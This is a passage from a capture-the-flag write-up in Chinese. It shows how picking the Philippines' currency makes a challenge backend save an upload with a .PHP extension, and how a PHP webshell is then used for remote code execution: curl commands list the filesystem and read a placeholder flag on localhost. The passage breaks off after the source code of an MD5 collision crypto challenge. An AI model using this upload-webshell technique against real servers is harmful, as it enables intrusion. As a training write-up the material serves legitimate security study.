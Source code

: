     (也就是說如果作者沒有加上這一段的話就不用玩了，應該ㄅ...)

    所以我們要做的就很簡單了,看哪一個國家的縮寫是php相關的，只要選取該國家，後端就會把檔案取名成`.PHP`，翻了一下currency.php發現是==菲律賓==，所以只要選取菲律賓，並且用最簡單的php websehll就可以達到RCE
    ![image](https://hackmd.io/_uploads/SkOzHCeia.png)
6. 成功RCE
    Payload: 
    ```url
    http://localhost:33000/upload/d0a101da1484e8905de9fa45ed320d72.PHP?sh=ls
    ```
    ![image](https://hackmd.io/_uploads/B1RBr0ljp.png)

#### Exploit - Upload Webshell
Payload: 
```bash
$ curl "http://localhost:33000/upload/d0a101da1484e8905de9fa45ed320d72.PHP?sh=ls%20/"
<html><body><h1> Exchange result </h1><p>bin
boot
dev
etc
flag-lMXptmyC
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ curl "http://localhost:33000/upload/d0a101da1484e8905de9fa45ed320d72.PHP?sh=cat%20/flag-lMXptmyC"
<html><body><h1> Exchange result </h1><p>TSCCTF{FAKEFLAG}
 TWD = TSCCTF{FAKEFLAG}
 PHP</p><a href='/'>Back to Home</a></body></html>%
```
## Crypto
### CCcollision
#### Source Code
:::spoiler
```python=
from hashlib import md5
from string import ascii_lowercase, digits
from random import choice
from secret import FLAG

def get_random_string(length):
    return "".join([choice(ascii_lowercase + digits) for _ in range(length)])

prefix = get_random_string(5)
hashed = md5(get_random_string(30).encode()).hexdigest()

print("here is your prefix: " + prefix)
print("your hash result must end with: " + hashed[-6:])

user_input = input("Enter the string that you want to hash: ")
```